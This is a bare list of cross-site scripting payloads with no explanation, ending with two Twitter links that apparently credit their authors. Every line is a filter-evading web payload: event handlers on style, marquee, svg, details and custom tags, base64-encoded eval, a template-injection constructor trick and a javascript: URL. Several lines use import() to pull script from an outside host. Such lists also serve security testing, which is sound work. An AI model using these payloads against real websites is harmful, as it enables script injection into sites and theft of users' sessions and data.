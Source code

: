 <style>@keyframes a{}b{animation:a;}</style><b/onanimationstart=prompt`${document.domain}&#x60;>
<marquee+loop=1+width=0+onfinish='new+Function`al\ert\`1\``'>
<svg><circle><set onbegin=prompt(1) attributename=fill>
<dETAILS%0aopen%0aonToGgle%0a=%0aa=prompt,a() x>
"%3balert`1`%3b"
asd"`> onpointerenter=x=prompt,x`XSS`
<x onauxclick=import('//1152848220/')>click
<x onauxclick=a=alert,a(domain)>click
<x onauxclick=import('//1152848220/')>click
<x onauxclick=import('//xss/')>click
\"<>onauxclick<>=(eval)(atob(`YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==`))>+<sss
{{constructor.constructor(alert`1`)()}}
javascript:new%20Function`al\ert\`1\``;
https://twitter.com/xhzeem/status/1378316651431612422
https://twitter.com/xhzeem/status/1377992310974218245
